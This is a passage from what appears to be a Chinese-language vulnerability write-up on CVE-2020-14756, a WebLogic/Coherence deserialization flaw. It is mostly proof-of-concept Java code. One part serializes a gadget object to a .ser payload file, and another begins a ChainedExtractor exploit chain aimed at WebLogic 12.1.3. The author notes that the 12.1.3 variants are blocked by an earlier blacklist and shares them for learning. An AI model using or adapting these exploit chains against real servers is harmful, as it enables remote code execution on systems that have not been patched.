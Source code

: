 ```
        m_sExpr.set(mvelExtractor,mvel1);


        FileOutputStream fileOut =
                new FileOutputStream("cve_2020_14756.ser");
        // 建立对象输入流
        ObjectOutputStream out = new ObjectOutputStream(fileOut);
        //输出反序列化对象
        out.writeObject(attributeHolder);
        out.close();
        fileOut.close();

    `}`
`}`
```



## POC-12.1.3-局限

对于Weblogic 12.1.3，ClassLoader无法加载`MvelExtractor`，所以需要寻找其它的sink。但笔者比较菜，没有能够找到除了`MvelExtractor`之外能够调用`readExternal`接口来反序列化的黑名单sink。跟[@Hu3sky](https://github.com/Hu3sky)师傅讨论后，他用`ChainedExtractor`实现了12.1.3版本的RCE，我用的是`TemplatesImpl`进行了RCE；然而这两种方法中的`Runtime.class`与`TemplatesImpl.class`都在12.1.3上一个版本的黑名单中，因此以下的两个exp仍不能打黑名单下的Weblogic12.1.3，丢出来仅供学习和后续师傅们利用做参考

### <a class="reference-link" name="12.1.3-ChainedExtractor"></a>12.1.3-ChainedExtractor

```
package weblogic.t3;

import com.tangosol.coherence.reporter.extractor.ConstantExtractor;
import com.tangosol.coherence.servlet.AttributeHolder;
import com.tangosol.util.ValueExtractor;
import com.tangosol.util.aggregator.TopNAggregator;
import com.tangosol.util.extractor.ChainedExtractor;
import com.tangosol.util.extractor.ReflectionExtractor;

import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class CVE_2020_14756_1213 `{`

    public static void main(String[] args) throws Exception`{`


        ValueExtractor[] fakeaExtractors = new ValueExtractor[]`{`
                new ConstantExtractor(null)
        `}`;


        //构造一个假的aExtractors数组，以便于add操作添加整数
        ChainedExtractor extractorChain = new ChainedExtractor(fakeaExtractors);


        TopNAggregator.PartialResult partialResult = new TopNAggregator.PartialResult(extractorChain);


        AttributeHolder attributeHolder = new AttributeHolder();
```
